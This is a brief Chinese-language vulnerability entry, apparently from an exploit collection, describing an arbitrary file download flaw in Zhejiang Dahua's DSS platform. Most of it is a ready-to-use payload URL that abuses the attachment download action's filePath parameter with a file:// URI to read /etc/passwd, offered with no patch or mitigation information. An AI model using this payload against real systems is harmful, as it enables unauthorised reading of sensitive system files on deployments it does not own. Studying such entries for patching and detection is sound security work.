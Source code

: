 <languages />

漏洞简介
--------

浙江大华技术股份有限公司DSS存在任意文件下载漏洞，攻击者可利用该漏洞登录界面下载任意文件获取敏感信息。

Payload
-------

    http://ip/itc/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd